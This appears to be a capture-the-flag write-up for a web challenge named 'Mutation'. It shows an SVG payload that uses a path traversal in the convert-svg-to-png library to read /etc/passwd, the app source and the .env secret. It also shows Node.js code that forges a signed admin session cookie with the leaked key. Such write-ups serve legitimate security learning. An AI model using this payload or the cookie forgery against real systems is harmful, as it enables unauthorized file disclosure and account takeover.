

# [Web] Mutation

Mutation is an application that allows users to export SVG through the `/api/export` endpoint. POSTing a specially crafted SVG can be done, which will [exploit](https://github.com/advisories/GHSA-jv7g-9g6q-cxvw) a [path traversal vulnerability](https://gist.github.com/legndery/a248350bb25b8502a03c2f407cedeb14) in the `convert-svg-to-png` library.

The SVG can look like:

```
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```

Or with any path, such as:

 - `/app/index.js`
 - `/app/.env`
 - etc

We can dump the entire app source code with this method and download the text to image version of it





We can even download the `.env` file used by the app to load the secret signing session cookies:


Since the session cookies are base64 encoded, it is possible to decode them and learn their structure. And re-encode the cookie as expected by the `route.js`, with the username as `admin`:


Finally, we reuse the secret found to recreate a cookie:

```
$ cat index.js
var session = require('cookie-session')
var cookieParser = require('cookie-parser')
var express = require('express')

// UUID: E7A8530E-72DC-43BB-9159-C342911C4306
// Cookie: eyJ1c2VybmFtZSI6IkU3QTg1MzBFLTcyREMtNDNCQi05MTU5LUMzNDI5MTFDNDMwNiJ9
// Signature: aU0b8KjHbsYd9UzbGWpVLq6H6GA

var app = express()
var secret = "5921719c3037662e94250307ec5ed1db"

app.use(cookieParser());
app.use(session({
  name: 'session',
  keys: [secret],
  maxAge: 24 * 60 * 60 * 1000 // 24 hours
}))

app.all('*', (req, res) => {
    req.session.username = "admin"
    res.status(200).send({message: 'ok'})
});

(async () => {
    app.listen(1337, '0.0.0.0', () => console.log('listening port 1337'))
})();
```


Then use this signed cookie as our session:


